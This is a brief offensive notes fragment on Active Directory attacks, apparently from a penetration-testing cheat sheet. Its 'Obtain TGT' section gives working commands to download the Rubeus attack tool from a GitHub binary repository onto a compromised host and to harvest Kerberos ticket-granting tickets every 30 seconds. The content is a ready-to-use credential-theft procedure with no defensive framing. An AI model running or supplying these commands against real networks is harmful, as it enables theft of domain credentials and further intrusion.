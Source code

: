 ##### Requirements
Any command execution on a machine inside of the AD

##### Obtain TGT
```
Invoke-WebRequest https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe   // Install Rubeus on target system
./Rubeus.exe harvest /interval:30   // Obtain TGTs every 30 seconds
``` 

